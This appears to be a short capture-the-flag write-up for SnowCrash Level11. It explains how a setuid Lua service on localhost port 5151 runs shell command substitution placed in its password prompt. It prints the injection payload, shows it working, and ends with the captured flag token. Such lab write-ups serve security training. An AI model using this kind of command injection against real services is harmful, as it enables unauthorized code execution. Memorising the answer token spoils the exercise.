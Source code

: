 ### Level11

We can see a script in the HOME, we can see that the suid/guid is active. This means that everything will be executed as flag11. After displaying the program we also know for sure that's listening on port 5151 of the localhost.

`local server = assert(socket.bind("127.0.0.1", 5151))`

We also know that it won't display the output of a command for example because it takes our content, hashes it and compares it to a string:

```
local h = hash(l)
if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
	client:send("Erf nope..\n");
```

To begin, let's run the following command and look at the result:
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `echo Hello World` > /tmp/output
Erf nope..
level11@SnowCrash:~$ cat /tmp/output
Hello World
```

The execution works fine and we can retrieve the contents. Now we just need to change the echo to getflag and we get :

`Check flag.here is your token: fa6v5ateaw21peobuub8ipe6s`
